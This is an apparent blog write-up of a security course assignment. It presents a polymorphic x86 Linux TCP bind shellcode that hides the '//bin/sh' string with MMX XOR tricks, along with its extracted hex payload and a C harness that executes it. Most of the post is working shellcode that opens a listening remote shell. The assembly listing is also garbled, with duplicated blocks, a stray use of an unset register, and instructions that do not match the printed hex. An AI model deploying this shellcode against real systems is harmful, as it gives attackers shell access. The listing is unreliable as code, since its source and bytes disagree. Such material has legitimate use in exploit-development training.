 ```yaml
---
title: SLAE32 Assignment 6 -- Polymorphic MMX TCP Bind Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.jpg)

For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org. A polymorphic shellcode means that it uses different instructions to deliver the same payload.  
For example, all of these instructions will result in the same action within a program.
```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```
The first shellcode I modified was "tcpbindshell (108 bytes)", created by Russell Willis.  
This shellcode can be found at http://shell-storm.org/shellcode/files/shellcode-847.php.  

The original shellcode length was 108 bytes. Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value. The final length of this polymorphic shellcode is 144 bytes.  
To push the filename string "//bin/sh" onto the stack, I used the MMX registers.  

```nasm
global _start
_start:
xor    eax,eax
xor    ebx,ebx
xor    ecx,ecx
xor    edx,edx
mov    al,0x66
mov    bl,0x1
push   ecx
push   0x6
push   0x1
push   0x2
mov    ecx,esp
int    0x80
mov    esi,eax
mov    al,0x66
mov    bl,0x2
push   edx
pushw  0x697a
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80
mov    al,0x66
mov    bl,0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80
mov    al,0x66
mov    bl,0x5
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
int    0x80
        mov eax, edi    ; EAX = 0x66 used for socketcall SYSCAL
        inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80

; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
dup2Loop:
        dec ecx
mov    al,0x3f
int    0x80
jne    dup2Loop

push   edx
        mov edx, 0xffffffff             ; will be used to XOR the MM0 Register to result in "//bin/sh"
    mov eax, 0x978cd091             ; "n/sh" XOR'd with 0xffffffff
        ;   mov eax, 0x68732f6e             ; "n/sh"
    movd mm0, eax
    psllq mm0, 32                   ; shift the mm0 register left by 4 bytes
    mov ebx, 0x969dd0d0             ; "//bi" XOR'd with 0xffffffff
        ;   mov ebx, 0x69622f2f             ; "//bi"
    movd mm1, ebx
    paddb mm0, mm1                  ; now mm0 hold the 8 byte XOR'd "//bin/sh"
    movd mm1, edx                   ; mm1 is now 0xffffffff
    psllq mm1, 32                   ; mm1 is now 0xffffffff00000000
    movd mm2, edx                   ; mm2 us biw 0xffffffff
    paddb mm1, mm2                  ; mm1 is now 0xffffffffffffffff
    pxor mm0, mm1                   ; XOR's mm0 with mm1 and saves the results in mm0
    sub esp, 8                      ; Decrement the stack 8 bytes
    movq qword [esp], mm0           ; push "//bin/sh" from mm0 to the top of the stack

xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80
```  

I compiled and linked the shellcode. Then I used object dump to extract the hex.  
```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 
I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
I then compiled the C program.  
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```




